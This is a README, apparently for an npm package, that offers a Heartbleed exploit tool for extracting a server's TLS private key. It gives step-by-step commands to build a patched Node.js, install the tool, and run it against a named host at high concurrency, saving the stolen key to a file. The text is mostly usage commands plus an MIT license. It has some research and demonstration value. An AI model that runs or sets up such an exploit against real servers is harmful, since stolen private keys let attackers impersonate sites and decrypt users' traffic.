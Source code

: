# Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

## How to use

You will need patched node.js version in order to be able to run this script.
The instructions of compiling it are following:

```bash
git clone git://github.com/indutny/heartbleed
git clone git://github.com/joyent/node -b v0.10.26 node-hb
cd node-hb
git apply ../heartbleed/node-v0.10.26.patch
./configure --prefix=$HOME/.node/0.10.26-hb
make -j24
ls ./node
```

Then you could just install this script using npm:

```bash
export PATH="$HOME/.node/0.10.26-hb/bin:$PATH"
npm install -g heartbleed
```

And run it:

```bash
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 > key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
